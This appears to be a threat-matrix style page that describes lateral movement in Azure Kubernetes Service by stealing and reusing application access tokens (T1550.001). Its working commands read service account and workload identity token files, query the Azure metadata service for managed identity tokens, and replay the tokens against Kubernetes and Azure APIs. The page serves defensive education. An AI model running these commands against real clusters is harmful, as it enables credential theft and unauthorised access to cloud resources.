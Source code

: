 # Lateral Movement

### **Lateral Movement in Containerized Environments**

In Kubernetes and container-native infrastructures, adversaries move laterally across nodes, namespaces, or services by abusing legitimate authentication material like **application access tokens**. These tokens are often service account credentials, cloud metadata tokens, or internal secrets used to access APIs and services — allowing attackers to pivot stealthily between resources and elevate control.

#### Use Alternate Authentication Material → Application Access Token (T1550.001)

**Description**:\
Steal and reuse application tokens (e.g., Kubernetes Service Account tokens, Azure Managed Identity tokens, or Azure Workload Identity tokens) to access additional cluster resources, Azure services, or escalate privileges within the cloud environment.

**AKS Example**:\
An attacker compromises a pod running in Azure Kubernetes Service (AKS) and extracts its Service Account token:

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

The attacker can reuse this token with `kubectl` or raw Kubernetes API requests to pivot into other namespaces or access secrets:

```bash
curl -k -H "Authorization: Bearer $TOKEN" https://<aks-api-server>/api/v1/secrets
```

Alternatively, the attacker can target the Azure Instance Metadata Service (IMDS) from within the compromised pod to steal an Azure Managed Identity token:

```bash
curl -H Metadata:true "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com"
```

The stolen Azure access token can then be used to interact with Azure services, such as listing resource groups or accessing storage accounts:

```bash
curl -X GET https://management.azure.com/subscriptions/<subscription-id>/resourcegroups?api-version=2021-04-01 \
  -H "Authorization: Bearer $ACCESS_TOKEN"
```

If AKS is configured with Azure Workload Identity, the attacker can also extract the federated OIDC token:

```bash
cat /var/run/secrets/azure/tokens/azure-identity-token
```

And exchange it for an Azure access token to assume roles assigned to the compromised identity:

```bash
az login --service-principal --username <client-id> --federated-token <stolen-token> --tenant <tenant-id>
```


